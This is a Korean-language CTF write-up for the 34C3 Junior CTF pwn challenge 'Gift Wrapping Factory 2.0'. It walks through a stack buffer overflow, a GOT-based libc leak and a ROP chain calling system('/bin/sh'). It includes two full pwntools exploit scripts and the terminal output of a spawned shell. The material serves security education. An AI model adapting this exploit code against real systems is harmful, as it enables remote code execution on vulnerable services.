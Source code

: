 # [2017_34C3 Junior CTF] \[PWN] Gift Wrapping Factory 2.0

## Key words

* 64bit ROP
* Return Oriented Programming
* stack based buffer overflow

## Description

```
Wrapping gifts is now even more fun! Gift Wrapping Factory 2.0:

nc 35.198.185.193 1341
```

## Solution

발생하는 취약점은 `Gift Wrapping Factory` 문제와 동일합니다. 하지만 이번에는 쉘을 띄어주는 매직 함수가 존재하지 않습니다. 따라서 메모리 주소를 릭한 후 ROP를 통해 쉘을 획득해야 합니다.

### Leak

got를 이용해서 leak을 발생시킬 수 있습니다.

```python
from pwn import *

libc_name = "/lib/x86_64-linux-gnu/libc.so.6" #"./libc-2.26.so"
target_name = "./giftwrapper2.so"
libc = ELF(libc_name)
target = ELF(target_name)

ret = 0x400bce
popret = 0x400e18
pop_rdi_ret = 0x40154F+1
pop_rsi_r15_ret = 0x040154D+1

def exploit(payload):
	print "111"
	print r.recv()
	r.sendline("wrap")
	print r.recv()
	r.send("-1")
	print r.recv()
	r.send(payload)

r = remote("0", 12345)
raw_input()
print r.recv()
r.sendline("aaaaaaaaaaaaaaaa/bin/sh")
print r.recv()
r.sendline("modinfo")
print r.recvuntil("Base address: 0x")
code_base = int(r.recvline()[:-1], 16)
log.info("code base 0x%x" % code_base)

payload = "a" * 136
payload += p64(pop_rdi_ret)
payload += p64(code_base + target.got['puts'])
payload += p64(code_base + target.plt['puts'])
payload += p64(pop_rsi_r15_ret)
exploit(payload)

print r.recvuntil("so beautiful\n")
leak = u64(r.recvline()[:-1].ljust(8,"\x00"))
libc_base = leak - (0x7fe627ccb690-0x7fe627c5c000)
log.info("leak : 0x%x" % leak)
log.info("libc base : 0x%x" % libc_base)

r.interactive()
```

client 프로그램은 포크로 작동되며, server 바이너리는 계속 돌고 있기 때문에 libc 주소는 항상 고정되어 있습니다. 즉, 한번 leak한 주소를 계속 쓸 수 있습니다.

### Exploit

```python
from pwn import *

libc_name = "/lib/x86_64-linux-gnu/libc.so.6" #"./libc-2.26.so"
target_name = "./giftwrapper2.so"
libc = ELF(libc_name)
target = ELF(target_name)

ret = 0x400bce
popret = 0x400e18
pop_rdi_ret = 0x40154F+1
pop_rsi_r15_ret = 0x040154D+1

def exploit(payload):
	print "111"
	print r.recv()
	r.sendline("wrap")
	print r.recv()
	r.send("-1")
	print r.recv()
	r.send(payload)

r = remote("0", 12345)
raw_input()
print r.recv()
r.sendline("aaaaaaaaaaaaaaaa/bin/sh")
print r.recv()
r.sendline("modinfo")
print r.recvuntil("Base address: 0x")
code_base = int(r.recvline()[:-1], 16)
log.info("code base 0x%x" % code_base)

libc_base = 0x7fe627c5c000
system = libc_base + libc.symbols['system']

payload = "a"*136
payload += p64(pop_rdi_ret)
payload += p64(0x602170)
payload += p64(system)
exploit(payload)

r.interactive()
```

시스템 함수의 인자로 들어가는 `/bin/sh`를 어떻게 입력하는 것이 문제인데, 이는 server 프로그램의 전역변수에 넣어두었습니다.

## 실행 결과

```
$ python ex.py 
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/home/delspon/labs/ctf/2017_34c3ctf/giftwrapper2/giftwrapper2.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to 0 on port 12345: Done

*
* Gift Wrapping Factory
*
Welcome to the new gift wrapping service!
Type "help" for help :)
> 
Command not found.
> 
************************************
Information about the loaded module:
Name: Gift Wrapping Factory
Base address: 0x
[*] code base 0x7fe627a5a000
111
************************************
> 
What is the size of the gift you want to wrap?
 |> 
Please send me your gift.
 |> 
[*] Switching to interactive mode
         _   _       
        ((\o/))      
 .-------//^\\------.
 |      /`   `\     |
 |                  |
 |                  |
  ------------------ 

Wow! This looks so beautiful
$ 
$ ls
ex.py
giftwrapper2.so
libc-2.26.so
peda-session-libc-2.26.so.txt
peda-session-server.txt
peda-session-sudo.txt
server
server.c
```

